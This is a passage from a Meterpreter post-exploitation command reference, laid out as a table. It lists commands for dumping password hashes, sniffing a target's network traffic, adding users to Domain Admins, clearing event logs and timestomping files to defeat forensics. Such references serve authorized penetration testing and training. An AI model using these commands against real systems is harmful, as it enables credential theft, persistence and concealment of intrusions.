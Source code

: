 | `uictl enable \<keyboard/mouse\>`                           | Take control of the keyboard and/or mouse.                   |
| `background`                                                | Run your current Meterpreter shell in the background.        |
| `hashdump`                                                  | Dump all hashes on the target. use sniffer Load the sniffer module. |
| `sniffer_interfaces`                                        | List the available interfaces on the target.                 |
| `sniffer_dump \<interfaceID\> pcapname`                     | Start sniffing on the remote target.                         |
| `sniffer_start \<interfaceID\> packet-buffer`               | Start sniffing with a specific range for a packet buffer.    |
| `sniffer_stats \<interfaceID\>`                             | Grab statistical information from the interface you are sniffing. |
| `sniffer_stop \<interfaceID\>`                              | Stop the sniffer.                                            |
| `add_user \<username\> \<password\> -h \<ip\>`              | Add a user on the remote target.                             |
| `add_group_user \<"Domain Admins"\> \<username\> -h \<ip\>` | Add a username to the Domain Administrators group on the remote target. |
| `clearev`                                                   | Clear the event log on the target machine.                   |
| `timestomp`                                                 | Change file attributes, such as creation date (antiforensics measure). |
| `reboot`                                                    | Reboot the target machine.                                   |



